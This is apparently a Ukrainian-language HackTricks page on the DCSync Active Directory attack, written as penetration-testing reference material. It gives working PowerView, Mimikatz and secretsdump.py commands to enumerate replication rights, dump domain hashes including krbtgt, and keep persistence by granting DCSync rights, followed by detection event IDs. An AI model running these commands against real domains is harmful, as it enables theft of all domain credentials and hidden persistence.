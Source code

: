 # DCSync

{{#include ../../banners/hacktricks-training.md}}

## DCSync

Дозвіл **DCSync** передбачає наявність цих дозволів над доменом: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** та **Replicating Directory Changes In Filtered Set**.

**Важливі примітки щодо DCSync:**

- **Атака DCSync імітує поведінку Контролера домену та запитує інші Контролери домену на реплікацію інформації** за допомогою Протоколу віддаленої реплікації каталогу (MS-DRSR). Оскільки MS-DRSR є дійсною та необхідною функцією Active Directory, його не можна вимкнути або деактивувати.
- За замовчуванням лише групи **Domain Admins, Enterprise Admins, Administrators та Domain Controllers** мають необхідні привілеї.
- Якщо паролі будь-яких облікових записів зберігаються з оборотним шифруванням, у Mimikatz доступна опція для повернення пароля у відкритому тексті.

### Enumeration

Перевірте, хто має ці дозволи, використовуючи `powerview`:
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```
### Експлуатація локально
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
### Експлуатація віддалено
```powershell
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```
`-just-dc` генерує 3 файли:

- один з **NTLM хешами**
- один з **Kerberos ключами**
- один з паролями у відкритому вигляді з NTDS для будь-яких облікових записів, для яких увімкнено [**зворотне шифрування**](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption). Ви можете отримати користувачів зі зворотним шифруванням за допомогою

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

### Постійність

Якщо ви адміністратор домену, ви можете надати ці дозволи будь-якому користувачу за допомогою `powerview`:
```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```
Тоді ви можете **перевірити, чи правильно користувачу були призначені** 3 привілеї, шукаючи їх у виході (ви повинні бачити назви привілеїв у полі "ObjectType"):
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```
### Пом'якшення

- Security Event ID 4662 (Політика аудиту для об'єкта повинна бути увімкнена) – Операція була виконана над об'єктом
- Security Event ID 5136 (Політика аудиту для об'єкта повинна бути увімкнена) – Об'єкт служби каталогів був змінений
- Security Event ID 4670 (Політика аудиту для об'єкта повинна бути увімкнена) – Дозволи на об'єкті були змінені
- AD ACL Scanner - Створіть та порівняйте звіти про ACL. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

## Посилання

- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
- [https://yojimbosecurity.ninja/dcsync/](https://yojimbosecurity.ninja/dcsync/)

{{#include ../../banners/hacktricks-training.md}}

